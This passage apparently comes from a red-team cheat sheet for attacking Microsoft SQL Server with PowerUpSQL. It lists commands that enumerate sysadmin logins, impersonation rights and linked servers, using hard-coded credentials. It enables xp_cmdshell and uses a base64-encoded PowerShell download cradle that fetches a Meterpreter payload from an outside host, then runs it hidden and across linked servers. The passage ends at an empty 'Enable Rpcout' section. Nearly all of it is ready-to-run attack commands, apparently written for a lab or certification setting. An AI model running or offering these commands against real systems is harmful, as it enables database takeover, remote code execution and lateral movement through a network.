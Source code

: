 Sysadmin logins/users
```powershell
Get-SQLQuery -Instance 'red.com,1433' -query "select name from master..syslogins where sysadmin=1;"
```
User/Login can be impersonated
```powershell
Get-SQLQuery -Instance 'red.com,1433' -query "SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';"
```
- Linked Servers

Not all users can see all links
```powershell
select * from master..sysservers; (SQL Query)

exec sp_linkedservers; (SQL Query)

get-sqlserverlinkcrawl -instance "cywebdw\sqlexpress" -username webapp11 -password 89543dfGDFGH4d (PowerUpSQL Query)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "select * from openquery(""m3sqlw.red.local"",'select * from master..sysservers')" (PowerUpSQL Open Query)
```
- Value of xp_cmdshell
```powershell
select * from sys.configurations where name='xp_cmdshell' (SQL Query)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "select * from sys.configurations where name ='xp_cmdshell'" (PowerUpSQL Query)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "select * from openquery (""m3sqlw.red.local"",'select * from sys.configurations where name=''xp_cmdshell''')" (PowerUpSQL OpenQuery)
```
- Enable xp_cmdshell
```powershell
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

exec xp_cmdshell 'whoami'; (SQL Query)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;EXEC master.dbo.xp_cmdshell 'whoami';"  (PowerUpSQL Query)

get-sqlquery -instance "web06\sqlexpress" -query "exec ('sp_configure ''show advanced options'', 1; reconfigure; exec sp_configure ''xp_cmdshell'', 1; reconfigure;') AT sql03; exec('xp_cmdshell ''hostname'';') at SQL03" -username sa -password Passw0rd  (1 hop PowerUpSQL Query)
```
- xp_cmdshell Meterpreter Shell
```bash
echo -en 'IEX ((new-object net.webclient).downloadstring("http://10.10.14.111/runner64.txt"))' | iconv -t UTF-16LE | base64 -w 0 (Encode Payload)

exec xp_cmdshell 'powershell -w hidden -enc <...>' (SQL Query)

Invoke-SQLOSCmd -Instance "CYWEBDW\SQLEXPRESS" -Command "powershell -w hidden -enc <...> " -RawResults  (PowerUpSQL Query 1)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "EXEC('xp_cmdshell ''powershell -w hidden -enc <...> '' ; ' ) " (PowerUpSQL Query 2)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "EXEC('xp_cmdshell ''powershell -w hidden -enc <...> '' ; ' )AT [m3sqlw.red.local]" (1 hop PowerUpSQL query)
````
- Enable Rpcout
```sql
```